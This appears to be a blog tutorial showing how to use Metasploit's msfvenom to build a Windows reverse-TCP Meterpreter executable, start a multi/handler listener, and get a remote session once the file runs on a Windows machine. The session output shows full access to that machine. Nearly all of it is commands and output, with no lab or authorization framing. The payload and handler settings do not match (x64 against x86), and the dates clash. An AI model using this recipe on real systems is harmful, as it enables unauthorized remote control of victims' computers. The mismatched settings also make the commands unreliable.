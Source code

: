 ```yaml
---
title: 🐞 Metasploit - Generate Reverse TCP payload for Windows Host
summary: 🐞
date: 2022-02-05

# Featured image
# Place an image named `featured.jpg/png` in this page's folder and customize its options here.
image:
  caption: 'Image credit: [**Metasploit**](https://www.metasploit.com)'

authors:
  - admin

tags:
  - Metasploit
---
```


Let's get started. First our main setup is Kali Linux. Open up the terminal and run the command.


```shell
ifconfig
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=HOST_IP_ADDRESS LPORT=5555 -f exe -o run.exe
```


Change __HOST_IP_ADDRESS__ to the host IP address that you get from _ifconfig_.
In the _eth0_ section look for _inet_. You can have the same as mine, or something else with a different name, depending if you are on connected wired or wireless.

An example of a Local IP Address could be the following.
```shell
192.168.1.120
```

Now, let's open up the terminal and run _msfconsole_ in order to start up the listener.

```shell
msfconsole
```

_What is msfconsole?_

_"The msfconsole is probably the most popular interface to the Metasploit Framework (MSF). It provides an “all-in-one” centralized console and allows you efficient access to virtually all of the options available in the MSF. MSFconsole may seem intimidating at first, but once you learn the syntax of the commands you will learn to appreciate the power of utilizing this interface."_

```shell
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.120
set LPORT 5555
run
```

Now, we are listening for incoming connections. Move _run.exe_ to a Windows host machine and run it. A Meterpreter session will open, giving full access to the Windows machine.


```shell
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.1.120:5555 
[*] Sending stage (175686 bytes) to 192.168.1.50
[*] Meterpreter session 1 opened (192.168.1.120:5555 -> 192.168.1.50:1042) at 2023-05-31 08:16:15 -0400

meterpreter >
```